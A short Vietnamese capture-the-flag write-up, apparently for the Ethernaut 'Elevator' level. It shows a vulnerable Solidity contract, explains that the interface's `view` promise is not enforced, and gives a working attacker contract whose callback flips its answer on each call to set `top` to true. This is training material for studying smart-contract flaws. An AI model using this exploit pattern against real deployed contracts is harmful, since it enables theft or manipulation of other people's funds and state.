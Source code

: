 ```js
pragma solidity ^0.4.18;


interface Building {
  function isLastFloor(uint) view public returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

### Phân tích

- Trong solidity có đoạn:

  > **View Functions**
  >
  > Functions can be declared view in which case they promise not to modify the state.

- vậy ra `view` thực chất chỉ là một lời hứa "hão" rằng ta chỉ _nhìn_ mà không _nắn bóp_ dữ liệu. Trên thực tế, trong hàm `view` việc ta _nắn bóp_ hay sửa đổi data cũng không có làm sao cả.

### Solution

- Trên RemixIDE, chuẩn bị contract để tấn công, implement `Elevator interface`, nhớ thay địa chỉ `_target` bằng địa chỉ instance của bạn:

```js
contract ElevatorAttack {
  bool public isLast = true;

  function isLastFloor(uint) public returns (bool) {
    isLast = ! isLast;
    return isLast;
  }

  function attack(address _target) public {
    Elevator elevator = Elevator(_target);
    elevator.goTo(10);
  }
}
```
